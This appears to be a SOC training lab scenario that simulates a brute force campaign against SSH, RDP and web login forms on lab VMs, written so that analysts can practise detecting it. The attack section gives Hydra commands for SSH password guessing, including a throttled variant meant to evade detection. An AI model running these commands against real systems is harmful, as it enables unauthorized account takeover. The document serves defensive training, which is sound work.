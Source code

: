 # Attack Scenario 1: Brute Force Attack Campaign

## Scenario Overview
This scenario simulates a brute force attack campaign targeting SSH, RDP, and web application login forms. SOC analysts will practice detecting, analyzing, and responding to credential-based attacks.

## Learning Objectives
- Detect brute force attacks in log data
- Analyze attack patterns and source IPs
- Create detection rules and alerts
- Implement response procedures
- Generate incident reports

## Attack Timeline
**Duration**: 2-3 hours  
**Difficulty**: Beginner  
**Prerequisites**: Basic understanding of authentication logs

## Lab Setup

### Target Systems
- **Ubuntu Vulnerable VM** (10.0.2.101) - SSH brute force target
- **Windows 10 Vulnerable VM** (10.0.2.102) - RDP brute force target
- **Web Application** (10.0.2.101:80/dvwa) - Web login brute force

### Monitoring Systems
- **ELK SIEM** (10.0.2.100) - Log collection and analysis
- **Network monitoring** - Traffic analysis

## Attack Execution

### Phase 1: SSH Brute Force Attack (15 minutes)

#### Attacker Actions (Kali Linux)
```bash
# Target: Ubuntu SSH service
# Tool: Hydra
# Wordlist: Common passwords

# Single user brute force
hydra -l vulnerable -P /usr/share/wordlists/rockyou.txt 10.0.2.101 ssh -t 4 -V

# Multiple users brute force
hydra -L /usr/share/wordlists/custom/usernames.txt -P /usr/share/wordlists/custom/passwords.txt 10.0.2.101 ssh -t 4

# Slow brute force to evade detection
hydra -l admin -P /usr/share/wordlists/custom/passwords.txt 10.0.2.101 ssh -t 1 -w 30
```
